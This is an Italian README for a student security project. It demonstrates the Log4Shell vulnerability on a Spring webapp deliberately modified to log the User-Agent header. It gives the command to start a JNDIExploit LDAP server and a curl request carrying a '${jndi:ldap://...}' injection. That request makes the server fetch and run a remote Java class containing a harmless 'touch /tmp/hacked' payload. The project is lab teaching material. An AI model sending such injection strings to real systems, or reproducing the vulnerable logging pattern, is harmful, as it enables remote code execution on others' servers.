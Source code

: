 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tipo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp realizzata con il popolare web framework Java MVC, opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "src\main\java\com\nico\store\store\controller\HomeController.java".
Nel controller è stata istanziata la classe Logger, ed è stata aggiunta (mediante annotazione) l'istruzione per ricavare l'header della richiesta "User-Agent" e passarla al controller. All'interno del controller, si è usata l'istanza del Logger per loggare la User-Agent. Ne consegue quindi, che se un client invia una  richiesta, sfruttando la Java API JNDI (Java Naming and Directory Interface) al server LDAP con l'header opportunamente modificato (nel nostro caso la user-agent, ma avrei potuto sceglierne un altro volendo), contenente l'istruzione per il download di una classe Java dal server LDAP, verrà eseguito il codice contenuto nella classe.

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j invocato nel controller, interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server LDAP (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```
Per codificare in base64 il payload ci si può servire del tool disponibile qui: https://gchq.github.io/CyberChef/

Ovviamente il server della WebApp deve essere avviato prima di inviare la richiesta curl.

## Avvio web-app

Se si desidera utilizzare il container docker (consigliato), si deve prima di tutto clonare questo repo con:
```bash
git clone https://github.com/andree93/sicurezza-spring-webapp-log4j.git
```

Posizionarsi nella directory principale della webApp e creare l'immagine docker con il Dockerfile presente su questo repo:
```bash
docker build --tag nomeContainer .
```

Crea il volume docker con il file di configurazione:
```bash
docker volume create nomeVolume
```

e dopo andare nella directory dei dati del volume appena creato e copiare il file di configurazione  "application.properties"  che si trova nella directory "config" (potrebbero essere necessari i privilegi di root):
```bash
cp application.properties /var/lib/docker/volumes/nomeVolume/_data
```

Avviare il container:

```bash
docker run --name nomeContainer -p 8080:8080 --network nomeRete -v nomeVolumeDocker:/config nomeImmagineDocker
```

Oppure è possibile montare direttamente la cartella che contiene il file di configurazione, senza creare il volume docker:

```bash
docker run -it --name nomeContainer -p 8080:8080 --network nomeSottoRete -v /percorso/al/file/config/:/config nomeImmagineDocker
```






Dopo aver inviato la request al server della webApp, come descritto sopra (ad esempio con curl), sarà possibile notare dai log del server LDAP che è stata "servita" la classe Java al server della nostra WebApp, con il payload al suo interno.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```

Ovviamente è possibile sfruttare la vulnerabilità eseguendo la webApp senza docker, ma è necessario che la JDK (o JRE) abbia abilitata l'opzione che consente di eseguire classi scaricate da un server remoto JNDI.
L'immagine docker, ad esempio, è stata creata a partire dalla JDK-8u181, che ha l'opzione abilitata di default.

```bash
com.sun.jndi.ldap.object.trustURLCodebase=true
```

Tuttavia, avere una versione più recente della JDK/JRE non è sufficiente per mettersi completamente al riparo dalla vulnerabilità.


```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server JNDI è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione libreria Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
